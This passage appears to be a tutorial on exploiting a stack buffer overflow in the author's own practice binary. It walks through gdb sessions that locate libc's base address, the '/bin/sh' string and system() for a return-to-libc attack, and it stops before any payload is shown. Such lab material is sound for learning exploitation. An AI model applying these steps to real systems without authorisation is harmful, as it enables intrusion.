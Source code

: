 Running `vmmap` will also provide the starting address of libc.so when ran from
a active gdb session.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒  gdb -q bin/sof

    @gef➤  vmmap
    Start      End        Offset     Perm Path
    0x08048000 0x08049000 0x00000000 r-x /home/th3v0id/repos/bufferoverflows/stack/01/bin/sof
    0x08049000 0x0804a000 0x00000000 rwx /home/th3v0id/repos/bufferoverflows/stack/01/bin/sof
    0xf7deb000 0xf7fa4000 0x00000000 r-x /usr/lib/libc-2.26.so
    0xf7fa4000 0xf7fa5000 0x001b9000 --- /usr/lib/libc-2.26.so
    0xf7fa5000 0xf7fa7000 0x001b9000 r-x /usr/lib/libc-2.26.so
    0xf7fa7000 0xf7fa8000 0x001bb000 rwx /usr/lib/libc-2.26.so
    0xf7fa8000 0xf7fab000 0x00000000 rwx 
    0xf7fcd000 0xf7fcf000 0x00000000 rwx 
    0xf7fcf000 0xf7fd2000 0x00000000 r-- [vvar]
    0xf7fd2000 0xf7fd4000 0x00000000 r-x [vdso]
    0xf7fd4000 0xf7ffc000 0x00000000 r-x /usr/lib/ld-2.26.so
    0xf7ffc000 0xf7ffd000 0x00027000 r-x /usr/lib/ld-2.26.so
    0xf7ffd000 0xf7ffe000 0x00028000 rwx /usr/lib/ld-2.26.so
    0xfffda000 0xffffe000 0x00000000 rwx [stack]

    @gef➤  q

We calculate the address by taking the start address of `/usr/lib/libc-2.26.so`
and add the offset of the string. I like to use `printf` for this. If you use
printf in gdb, you have to add `shell` before the command so gdb doesn't try to
interpret it as one it provides. Same applies to any shell command you want to
run in gdb.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  printf "0x%x\n" $((0xf7deb000 + 0x16a23e))  
    0xf7f5523e

To verify the address is correct, we can evaluate it in gdb, and see what string
resides there. It should be '/bin/sh'.

    @gef➤  x/s 0xf7f5523e
    0xf7f5523e:	"/bin/sh"

And now, we just need the address of `system`.

    @gef➤  p system
    $1 = {<text variable, no debug info>} 0xf7e2c540 <__libc_system>

    @gef➤  q

Because I'm on a machine with an Intel processor and I compiled the binary for
32 bit systems, the addresses we found need to be reversed to conform with
little-endian notation. If you have a processor that enforces little-endian
notation, you will find yourself doing this often. I wrote this
[script](https://gist.github.com/selftaught/5ba8e942f68ae38719243de8d07bcaea)
that takes a memory address and reverses it.

Reverse system address
